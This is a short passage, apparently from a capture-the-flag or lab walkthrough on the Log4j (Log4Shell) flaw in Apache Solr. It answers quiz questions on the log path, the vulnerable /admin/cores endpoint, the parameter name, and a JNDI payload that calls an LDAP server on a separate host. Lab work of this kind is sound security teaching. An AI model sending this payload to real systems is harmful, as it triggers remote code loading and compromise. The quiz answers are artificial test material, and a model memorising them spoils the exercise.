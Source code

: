 /var/solr/logs/solr.log

# <b> 22. What is the path that is vulnerable to log4j? </b>

/admin/cores

# <b> 23. What is the GET request parameter used to deliver log4j payload? </b>

foo

# <b> 24. What is the JNDI payload that is connected to the LDAP port? </b>

{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}

